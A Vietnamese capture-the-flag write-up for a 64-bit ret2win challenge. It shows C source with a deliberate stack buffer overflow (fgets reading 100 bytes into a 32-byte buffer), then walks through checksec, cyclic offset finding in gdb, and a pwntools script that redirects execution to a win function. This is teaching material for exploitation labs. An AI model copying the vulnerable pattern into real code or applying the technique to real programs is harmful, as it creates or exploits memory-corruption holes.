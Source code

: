 # ret2win_chall_demo_file

## ret2win.c
```C
#include <stdio.h>
#include <string.h>
void win() {
    printf("\nWELL DONE! THIS IS YOUR FLAG: CTF{ISP_VO_DICH}\n");
}
void vulnerable() {
    char buffer[32];
    printf("Enter input: ");
   fgets(buffer, 100, stdin)
}
int main() {
    setbuf(stdout, NULL);
    printf("=== 64-bit RET2WIN CHALLENGE ===\n");
    vulnerable();
    printf("Try again!\n");
    return 0;
}
```

## Lỗ hổng nằm trong hàm `vulnerable`:
- Khai báo mảng `buffer` có kích thước 32 byte.
- Sử dụng hàm `fgets` để đọc dữ liệu từ người dùng, với tham số thứ hai là 100, nghĩa là sẽ đọc tối đa 100 byte (bao gồm cả ký tự null) vào `buffer`.
- Vấn đề: `buffer` chỉ có 32 byte, nhưng `fgets` cho phép đọc đến 100 byte. Điều này dẫn đến tràn bộ đệm (buffer overflow) nếu người dùng nhập nhiều hơn 31 ký tự.
- Hậu quả: Dữ liệu nhập vào vượt quá 32 byte sẽ ghi đè lên các vùng nhớ khác trên stack, bao gồm cả địa chỉ trở về (return address) của hàm `vulnerable`. Khi hàm `vulnerable` kết thúc, nó sẽ trả về địa chỉ mà chúng ta đã ghi đè, từ đó cho phép điều khiển luồng thực thi của chương trình.





## Kiểm tra bảo mật 
### Cài pwntools
```bash
pip install pwntools
```
### checksec file
```bash
checksec chall1
```

 **Mục đích: phân tích cơ chế bảo mật của file thực thi:**
- NX (No-execute): Ngăn chặn thực thi code trên stack
- Stack Canary: Phát hiện tràn bộ đệm
- PIE (Position Independent Executable): Random hóa địa chỉ → Cần tắt để sử dụng địa chỉ cố định

→ ret2win chỉ khả thi khi không có Stack Canary và PIE tắt.



## Tạo pattern 100 kí tự
```bash
cyclic 100
```


## Khi chương trình crash, kiểm tra giá trị RIP:
```bash
info registers rip
```


## Tìm offset từ giá trị RIP:
```bash
cyclic -l <giá_trị_rip>
```


## Tìm địa chỉ hàm win
```bash
p & win
```


## Viết script (solve1.py)
```python
from pwn import *

p = process('./chall_ret2win')

offset = 40                    #Độ dài offset
win_addr = 0x401156            #Địa chỉ hàm win

payload = b'A' * offset        #Tạo input gây BOF
payload += p64(win_addr)       #Ghi đè địa chỉ hàm win lên return address

p.sendline(payload)
p.interactive()
```


## Chạy script
```bash
  python3 solve1.py
```
